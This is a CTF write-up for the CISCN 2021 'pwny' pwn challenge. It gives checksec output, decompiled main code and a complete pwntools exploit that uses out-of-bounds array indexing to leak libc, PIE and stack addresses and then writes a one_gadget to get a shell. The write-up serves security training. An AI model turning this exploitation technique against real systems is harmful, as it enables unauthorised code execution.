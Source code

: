 # CISCN 2021 pwny

> CISCN 2021 初赛 第十四届全国大学生信息安全竞赛 创新实践能力赛 线上初赛 pwn
>
> challenge name: pwny
>
> file: pwny, libc-2.27.so
>
> No description
>
> writeup writer: hexhex16@outlook.com





## Warning

经测试，在kali 20.04下，大概率由于libc版本问题，使用`process("./pwny", env={'LD_PRELOAD': './libc-2.27.so'})`时会在`recvuntil("choice: ")`处`raise EOFError`。

在kali 18.04, python 3.6.6, pwntools 4.5.0, 可以使用Exploit下的脚本getshell



# checksec

```bash
$ checksec --file=pwny
RELRO       STACK CANARY  NX          PIE          RPATH     RUNPATH     Symbols     FORTIFY Fortified  Fortifiable FILE
Full RELRO  Canary found  NX enabled  PIE enabled  No RPATH  No RUNPATH  No Symbols    Yes   1          2           pwny
```





# IDA Analysis

- main函数:

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  __int64 vars0[5]; // [rsp+0h] [rbp+0h] BYREF

  vars0[1] = __readfsqword(0x28u);
  sub_A10();
  while ( 1 )
  {
    while ( 1 )
    {
      puts("1. read");
      puts("2. write");
      puts("3. exit");
      __printf_chk(1LL, "Your choice: ");
      __isoc99_scanf("%ld", vars0);
      if ( LODWORD(vars0[0]) != 2 )
        break;
      sub_BA0();                                // 2: write
    }
    if ( LODWORD(vars0[0]) == 3 )
      goto LABEL_6;
    if ( LODWORD(vars0[0]) != 1 )
      break;
    sub_B20();                                  // 1: read
  }
  puts("NO");
LABEL_6:
  exit(0);
}
```







# Exploit

> TEST PASS on kali 18.04, Python 3.6.6, pwntools 4.5.0, libc-2.27.so, ld-2.27.so
>
> 在`gdb.attach()`时，会有`[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)`，实际上gdb有运行，同时在MobaXterm无法显示gdb窗口，在虚拟机上有gdb窗口
>
> cannot run(by default): kali 1904, kali 2004

```python
from pwn import *
context.binary = './pwny'
sh = process("./pwny", env={'LD_PRELOAD': './libc-2.27.so'})
# sh = process(["./ld-2.27.so", "./pwny"], env={'LD_PRELOAD': './libc-2.27.so'})
# sh = remote("124.71.229.55", "22991")


def write(idx):
    sh.sendlineafter("Your choice: ", "1")
    sh.sendlineafter(b"Index: ", p64(idx & 0xffffffffffffffff))


def read(idx, buf='', id=1):
    # sh.sendlineafter("Your choice: ", "2")
    sh.recvuntil("choice: ")
    sh.sendline("2")
    sh.sendlineafter("Index: ", str(idx))
    if(id == 0):
        sh.send(buf)


read(256)  # qword_202060 idx=256刚好就是fd的存储位置，都在.bbs段
# 第一次 read(256) 会将fd覆盖为一个随机数？
gdb.attach(sh)
read(256)
write(-4)
sh.recvuntil("Result: ")
stderr = int(b"0x" + sh.recvline(keepends=False), 16)
libc = ELF("./libc-2.27.so")
success(hex(stderr))
libc.address = stderr - libc.sym['_IO_2_1_stderr_']
success(hex(libc.address))

write(-0x5c)
sh.recvuntil("Result: ")
pie = int(b"0x" + sh.recvline(keepends=False), 16) - 0xa00
success(hex(pie))
base = pie + 0x202060  # .bss:00202060 qword_202060 dq 100h dup(?)
success(hex(base))


def calc(addr):
    return int((addr - base) / 8)


# gdb.attach(sh,"b *$rebase(0x8b4)\nc")
environ = libc.sym['environ']
write(calc(environ))
sh.recvuntil("Result: ")
environ = int(b"0x" + sh.recvline(keepends=False), 16) - 0xa00
success(hex(environ))

read(calc(environ), p64(0xdeadbeef), 0)
stack = environ + 0x8e0
read(calc(stack + 0x70), p64(0), 0)
read(calc(stack), p64(libc.address + 0x10a41c), 0)
sh.interactive()

```



